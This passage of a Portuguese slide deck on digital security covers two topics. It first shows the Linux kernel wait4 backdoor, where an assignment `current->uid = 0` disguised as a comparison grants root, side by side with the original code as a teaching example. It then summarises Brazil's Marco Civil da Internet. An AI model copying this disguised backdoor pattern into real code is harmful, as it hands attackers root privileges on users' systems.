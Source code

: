 Bastava chamar a função `wait4` e você viraria *root*.

---

title: Ataque ao Kernel GNU/Linux

Comparemos os códigos original e o backdoor, e vejam se encontram a diferença.

<pre class="prettyprint">
/* ... */
if ((options == (__WCLONE|__WALL))
	&& (current->uid = 0))
        retval = -EINVAL;
/* ... */
</pre>

<pre class="prettyprint">
/* ... */
if ((options == (__WCLONE|__WALL))
	&& (current->uid == 0))
        retval = -EINVAL;
/* ... */
</pre>

---

title: Marco Civil da Internet no Brasil
class: segue nobackground fill
image: img/marco-civil.jpg

---

title: Marco Civil da Internet no Brasil

**O que é Marco Civil?**

É um projeto de Lei que visa estabelecer direitos e deveres na utilização da Internet no Brasil.
É a constituição da Internet no país.

---

title: Marco Civil da Internet no Brasil

* **Neutralidade**: proíbe que provedores de internet discriminem certos serviços
	em detrimento de outros.
* **Armazenamento de dados**: Operação de coleta de dados no Brasil deve respeitar
	a privacidade, proteção dos dados e sigilo das comunicações privadas.
* **Retirada de conteúdo**: entidades que oferecem conteúdo e aplicações só serão
	responsabilizadas por danos gerados por terceiros se não acatarem ordem
    judicial exigindo a retirada dessas publicações.

---

title: Marco Civil da Internet no Brasil

* **Fim do marketing dirigido**: as empresas de acesso não poderão "espiar" o conteúdo
	das informações trocadas pelos usuários na rede. Há interesse em fazer isso com
    fins comerciais, como para publicidade.
* **Sigilo e privacidade**: Provedores de acesso à internet serão obrigados a guardar
	os registros das horas de acesso e do fim da conexão dos usuários pelo prazo de
    seis meses, mas isso deve ser feito em ambiente controlado.

